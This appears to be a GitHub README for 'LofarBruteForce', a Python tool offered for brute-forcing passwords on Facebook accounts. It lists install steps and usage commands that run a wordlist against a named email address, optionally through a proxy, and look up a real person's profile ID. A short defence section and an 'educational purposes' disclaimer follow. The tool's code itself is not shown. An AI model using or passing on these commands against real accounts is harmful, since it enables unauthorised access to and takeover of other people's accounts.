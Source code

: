      SCRIPT: LofarBruteForce

     JOB: Brute Force Attack On Facebook Accounts

     SCRIPT ScreeenShot:
        Usage:
        Brute Force On Facebook Account Without proxy:
        Command: python2 LofarBruteForce.YS -t Lofaralzadjali@gmail.com -w wlist.txt
        
        Brute Force On Facebook Account With Proxy:
        python2 LofarBruteForce.YS -t Lofaralzadjali@gmail.com -w wlist.txt -p 144.217.101.245:3129
        
        
        Get Target Facebook Profile ID:
        python2 LofarBruteForce.YS -g https://www.facebook.com/zuck 
        
     
     # For Install
       git clone https://github.com/MuhammadYousuf813/LofarBruteForce

       cd LofarBruteForce/

       pip install requests

       pip install mechanize

       pip2 install requests

       pip2 install mechanize


     # Supported Platforms:
       1) Windows
       2) Linux
       3) Android~Termux
       4) MacOs
       5) any Os has python(2.x, 3.x) with required modules

     # Protect yourself from this attack:
        1) Use Strong Password which contains {letters(lower,upper),tokens,numbers} make it longest as possible, at least 10            letters.
        2) Use 2F Authentication.

     # WARNING:
       1) this script is only for educational purposes
       2) i am not responsible for your actions.

     # That's All :)
       1) This Script Coded By YOUSUF ALZADJALI (LOFAR)
       2) Thanks For Usage
       3) Have A Nice Day...GoodBye :)





